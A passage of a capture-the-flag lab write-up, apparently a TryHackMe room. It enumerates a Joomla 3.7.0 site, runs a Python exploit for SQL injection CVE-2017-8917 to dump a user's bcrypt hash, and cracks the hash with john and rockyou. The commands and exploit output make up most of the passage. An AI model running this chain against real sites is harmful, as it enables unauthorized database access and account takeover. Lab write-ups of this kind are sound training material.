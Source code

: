   ```
  /plugins (Status: 301)
  /includes (Status: 301)
  /language (Status: 301)
  /README.txt (Status: 200)
  /components (Status: 301)
  /cache (Status: 301)
  /libraries (Status: 301)
  /robots.txt (Status: 200)
  /LICENSE.txt (Status: 200)
  /tmp (Status: 301)
  /layouts (Status: 301)
  /administrator (Status: 301)
  /configuration.php (Status: 200, Size: 0)
  /htaccess.txt (Status: 200)
  /cli (Status: 301)
  ```
- **Key Findings**:
  - `/administrator`: Joomla admin login panel [].
  - `/README.txt`: Revealed Joomla version 3.7.0, vulnerable to SQL injection (CVE-2017-8917) [].
  - `/configuration.php`: Empty response, but typically contains database credentials [].

### 3. Exploit Joomla SQL Injection (CVE-2017-8917)
- Used a Python exploit script (`joomla.py`) for Joomla 3.7.0 SQL injection []:
  ```bash
  python2 joomla.py http://10.10.85.222
  ```
- Output:
  ```
  [-] Fetching CSRF token
  [-] Testing SQLi
   - Found table: fb9j5_users
   - Extracting users from fb9j5_users
  [$] Found user [u'811', u'Super User', u'jonah', u'jonah@tryhackme.com', u'$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', u'', u'']
   - Extracting sessions from fb9j5_session
  ```
- **Findings**:
  - Username: `jonah`
  - Email: `jonah@tryhackme.com`
  - Password hash: `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm` (bcrypt)
- **Explanation**: CVE-2017-8917 allows unauthorized SQL injection to extract user data from the Joomla database [].

### 4. Crack Password Hash
- Saved the hash:
  ```bash
  echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > hash.txt
  ```
- Cracked it with `john`:
  ```bash
  john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  ```
- **Result**: Password is `spiderman123` [].
- **Credentials**: `jonah:spiderman123`.

